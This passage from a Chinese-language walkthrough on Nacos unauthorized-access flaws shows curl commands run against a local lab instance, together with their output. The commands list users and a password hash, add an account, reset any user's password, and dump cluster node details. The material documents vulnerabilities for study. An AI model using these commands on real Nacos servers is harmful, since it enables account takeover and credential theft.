 查看 nacos 的用户账号密码：

```
┌──(root㉿kali)-[~]
└─# curl "http://127.0.0.1:8848/nacos/v1/auth/users?search=accurate&pageNo=1&pageSize=9" | python3 -m json.tool
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   159    0   159    0     0   1166      0 --:--:-- --:--:-- --:--:--  1169
{
    "totalCount": 1,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        }
    ]
}
```

添加用户：

```
┌──(root㉿kali)-[~]
└─# curl -v --data-binary "username=test&password=123456" "http://127.0.0.1:8848/nacos/v1/auth/users"
{"code":200,"message":null,"data":"create user ok!"}
```

更改任意用户密码：

```
┌──(root㉿kali)-[~]
└─# curl -X PUT 'http://127.0.0.1:8848/nacos/v1/auth/users?accessToken=' -d 'username=test&newPassword=test123'
{"code":200,"message":null,"data":"update user ok!"}
```

获取集群信息：

```
┌──(root㉿kali)-[~]
└─# curl 'http://127.0.0.1:8848/nacos/v1/core/cluster/nodes'
{"code":200,"message":null,"data":[{"ip":"172.17.0.2","port":8848,"state":"UP","extendInfo":{"lastRefreshTime":1708589254539,"raftMetaData":{"metaDataMap":{"naming_instance_metadata":{"leader":"172.17.0.2:7848","raftGroupMember":["172.17.0.2:7848"],"term":1},"naming_persistent_service_v2":{"leader":"172.17.0.2:7848","raftGroupMember":["172.17.0.2:7848"],"term":1},"naming_service_metadata":{"leader":"172.17.0.2:7848","raftGroupMember":["172.17.0.2:7848"],"term":1}}},"raftPort":"7848","readyToUpgrade":true,"version":"2.2.2"},"address":"172.17.0.2:8848","failAccessCnt":0,"abilities":{"remoteAbility":{"supportRemoteConnection":true,"grpcReportEnabled":true},"configAbility":{"supportRemoteMetrics":false},"namingAbility":{"supportJraft":true}}}]}
```

## Nacos 认证绕过
